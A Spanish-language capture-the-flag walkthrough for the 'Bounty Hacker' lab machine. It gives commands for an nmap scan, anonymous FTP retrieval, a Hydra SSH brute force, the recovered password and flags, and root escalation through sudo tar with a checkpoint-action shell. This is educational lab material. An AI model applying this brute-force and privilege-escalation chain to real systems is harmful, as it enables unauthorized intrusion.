






# Bounty Hacker CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21/tcp | FTP | vsftpd 3.0.5 |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.41 Ubuntu |

**Hallazgos críticos:**
- FTP → **Anonymous login allowed** 🔴
- SSH disponible → vector de acceso con credenciales



---

### Fase 1.2 — Acceso FTP Anónimo

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ftp <TARGET_IP>
# Usuario: anonymous
# Password: (vacío)
ls
get locks.txt
get task.txt
exit
cat task.txt
cat locks.txt
```

**Hallazgos críticos:**
- `task.txt` → firmado por **`lin`** 🔴 → usuario válido del sistema
- `locks.txt` → wordlist de 26 contraseñas 🔴 → usada para fuerza bruta SSH con Hydra



---

### Fase 1.3 — Fuerza Bruta SSH con Hydra

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
hydra -l lin -P locks.txt ssh://<TARGET_IP> -t 4
```

**Credenciales encontradas:**

| Campo | Valor |
|-------|-------|
| Usuario | lin |
| **Password** | **RedDr4gonSynd1cat3** 🔴 |



---

## Fase 2 — Foothold

### Fase 2.1 — SSH como lin y User Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh lin@<TARGET_IP>
# Password: RedDr4gonSynd1cat3

# [MÁQUINA OBJETIVO - como lin]
whoami
cat Desktop/user.txt
```

**Hallazgos:**
- Acceso exitoso como `lin` 🔴
- Sistema: Ubuntu 20.04.6 LTS
- User flag encontrada en `/home/lin/Desktop/user.txt`

**User Flag:**
```
THM{CR1M3_SyNd1C4T3}
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Identificación del Vector PrivEsc (sudo -l)

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como lin]
sudo -l
```

**Hallazgo crítico:**

| Usuario | Comando | Privilegio |
|---------|---------|------------|
| lin | `/bin/tar` | **(root) NOPASSWD** 🔴 |

**Vector:** lin puede ejecutar `tar` como root → GTFOBins → shell de root



---

### Fase 3.2 — PrivEsc via sudo tar → Root Flag

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como lin]
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# [MÁQUINA OBJETIVO - como ROOT]
whoami
cat /root/root.txt
```

**Root Flag:**
```
THM{80UN7Y_h4cK3r}
```


